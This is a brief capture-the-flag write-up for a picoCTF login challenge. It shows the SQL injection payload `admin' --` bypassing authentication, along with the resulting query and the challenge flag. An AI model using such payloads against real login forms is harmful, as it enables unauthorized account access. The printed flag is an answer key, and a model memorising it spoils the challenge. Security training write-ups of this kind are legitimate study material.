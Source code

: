 # SQLiLite

## Challenge

Can you login to this website?

## Solution

This is a basic SQL injection. Using the payload `admin' --` (because the hint says to sign in as the `admin` user) and anything for the password logs in. After logging in, this is shown:

```
username: admin' --
password: asd
SQL query: SELECT * FROM users WHERE name='admin' --' AND password='asd'

Logged in! But can you see the flag, it is in plainsight.
```

The flag is in the source code.

### Flag

`picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}`
